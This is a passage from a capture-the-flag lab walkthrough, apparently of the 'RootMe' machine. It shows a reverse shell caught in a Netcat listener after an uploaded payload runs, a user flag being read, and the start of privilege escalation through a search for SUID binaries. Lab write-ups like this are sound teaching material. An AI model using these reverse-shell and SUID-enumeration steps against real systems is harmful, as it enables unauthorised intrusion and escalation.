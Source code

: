 Now navigate to path /uploads and we will see our payload there now click on it to execute it, and we have our shell in our Netcat listener

```bash
nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.9.80.228] from (UNKNOWN) [10.10.55.36] 53476
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:33:46 up 7 min,  0 users,  load average: 0.38, 1.58, 1.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
```

Navigate to /var/www/user.txt

```bash
$ cd var/www
$ ls
html
user.txt
$ cat user.txt
```

<details><summary>🚩 user.txt [Flag]</summary></details>

### Task 4 - Privilege escalation

#### 4.1 - Search for files with SUID permission, which file is weird?

Now that we are on the target machine, we need to look for ways to escalate our privileges. Using our next question as a hint we need to search for files with SUID permissions. To do this we can run the command:

```bash
$ find / -perm -u=s -type f 2>/dev/null
```

<pre class="language-bash"><code class="lang-bash">/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
<a data-footnote-ref href="#user-content-fn-1">/usr/bin/python</a>
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn